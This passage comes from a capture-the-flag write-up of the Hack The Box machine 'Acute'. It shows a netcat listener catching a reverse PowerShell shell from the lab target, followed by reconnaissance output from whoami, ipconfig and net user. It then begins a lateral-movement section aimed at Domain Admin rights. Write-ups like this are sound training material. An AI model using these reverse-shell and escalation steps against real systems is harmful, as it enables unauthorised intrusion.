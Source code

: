```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|19:19:03(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.145] 49843

PS > whoami; ipconfig /all
acute\edavies

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Acute-PC01
   Primary Dns Suffix  . . . . . . . : acute.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : acute.local

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft Hyper-V Network Adapter #2
   Physical Address. . . . . . . . . : 00-15-5D-E8-0A-01
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14(Preferred) 
   IPv4 Address. . . . . . . . . . . : 172.16.22.2(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1
   DHCPv6 IAID . . . . . . . . . . . : 251663709
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-29-29-1F-44-00-15-5D-E8-02-00
   DNS Servers . . . . . . . . . . . : 172.16.22.1
[...]
```

I'm user `edavies`!

## Lateral Movement

### `Acute-PC01` edavies to `ATSSERVER` imonks

After gaining initial foothold on a target machine, we need to escalate our privilege, like `Administrator`, SYSTEM, `Domain Admins` user.

**Local users:**
```shell
PS > net user
[...]
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
Natasha                  WDAGUtilityAccount       
```
